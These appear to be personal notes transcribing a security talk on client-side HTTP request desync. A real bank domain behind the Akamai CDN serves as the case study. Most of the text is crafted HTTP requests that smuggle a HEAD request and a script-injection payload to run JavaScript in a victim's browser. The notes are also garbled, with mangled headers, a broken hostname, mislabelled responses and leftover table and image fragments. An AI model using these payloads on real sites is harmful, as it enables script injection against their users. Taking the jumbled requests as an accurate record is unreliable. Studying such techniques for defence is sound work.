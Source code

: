 ```REQUEST1
X: YGET /assets/ HTTP/1.1
Host: wwc.capitalone
```
```RESPONSE1
HTTP/1.1 301 Moved Permanently
```
(RESPONSE 2 CONCATENATED)
```RESPONSE1
HTTP/1.1 200 OK

Allow: /
```
![[Pasted image 20240810230353.png]]
So for our first cas study, we're gonna exploit a straightforward vulnerability that affected a huge number of websites built on the CDN akamai. This attack vector is nice and simple. To cause a desync, you just need to do a POST request that triggers a redirect from the font-end. Confirming this in a browser is also really easy. 

| Name     | Columna 2 | Columna 3 |
| -------- | --------- | --------- |
| /assets  | 301       | 1135468   |
| /assets/ | 200       | 1135468   |
(200 allow)
![[Pasted image 20240810230651.png]]
Here, i've just crafted the prefix so that when the browser follows this redirect from the front-end, it ends up seeing the contents of the robots.txt file. For the exploit, i'm gonna use the head technique.
```
POST /assets HTTP/1.1
Host: www.capitalone.ca
Content-Length: 67

HEAD /404/?cb=123 HTTP/1.1

GET /X?<script>evil() HTTP/1.1
```
```RESPONSE1
HTTP/1.1 301 Moved Permanently
```
```RESPONSE2
HTTP/1.1 301 Moved Permanently
Location: /assets/
```
```RESPONSE1
HTTP/1.1 404 Not Found
```
![[Pasted image 20240810230822.png]]
Now. if you're not familiar with this technique, it's documented in more detail in last year's presentation on HTTP/2 but the short version is with the head technique, you use the method head to queue up multiple responses that when combined are harmful and let us execute JavaScript from the target site in our victim's browser.
```
POST /assets HTTP/1.1
Host: www.capitalone.ca
Content-Length: 67

HEAD /404/?cb=123 HTTP/1.1

GET /X?<script>evil() HTTP/1.1
```
![[Pasted image 20240810231042.png]]